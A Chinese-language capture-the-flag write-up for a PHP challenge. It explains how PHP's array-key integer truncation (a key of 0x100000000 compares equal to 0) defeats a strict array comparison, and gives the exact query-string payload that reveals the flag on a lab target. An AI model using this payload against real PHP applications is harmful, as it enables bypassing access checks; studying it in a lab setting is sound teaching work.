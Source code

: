 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要逻辑代码：

```php

<?php

require_once('flag.php');

if(empty($_GET['user'])) die(show_source(__FILE__));

$user = ['admin', 'xxoo'];

if($_GET['user'] === $user && $_GET['user'][0] != 'admin'){

    echo $flag;
}
?>
```

3.题目分析

我们直接看后面 if 中的判断逻辑：

* `$_GET[‘user’]` 是一个全局的变量，我们传的是字符串，它就是字符串，传的是数组，那么它的值就是数组

* `$user` 是一个数组, `[0 => ‘admin’, 1 => ‘xxoo’]`

* `===` 三个等号的意思就是类型是同一类型，并且值也是相同的

* `$_GET[‘user’][0]` 的值不能等于 `‘admin’`

也就是说，如果要使这个 if 条件成立，就必须让两个键值不相等的数组经过 `===` 比较后返回 true。

4.然后我们测试：

```php

➜  ~  php -r "var_dump([1=>0]==[1=>0]);"
bool(true)
➜  ~  php -r "var_dump([1=>0]===[1=>0]);"
bool(true)
➜  ~  php -r "var_dump([1=>0]==[2=>0]);"
bool(false)
➜  ~  php -r "var_dump([1=>0]===[2=>0]);"
bool(false)
```
然后我们再来看我们这个漏洞：

```php
➜  ~  php -r "var_dump([0 => 0] === [0x100000000 => 0]);"
bool(true)
```
键名为 0 的数组与键名为` 0x100000000` 的数组居然相等了！

也就是说：

```php
$user : [0 =>'admin', 1=>'xxoo'];

$_GET['user']: [0x100000000 =>'admin', 1=>'xxoo']

```
这样就能使题目当中的条件成立。

5.构造 payload :

```php
http://IP:PORT/challenge20.php?user[4294967296]=admin&user[1]=xxoo
```
>2^32 == 0x100000000 == 4294967296
由于是截断漏洞，所以 0x100000000 后面再多几个 0 也是可以的，适当转换成对应的 10 进制数就好

6.获取flag：

![](files_for_writeup/2.png)

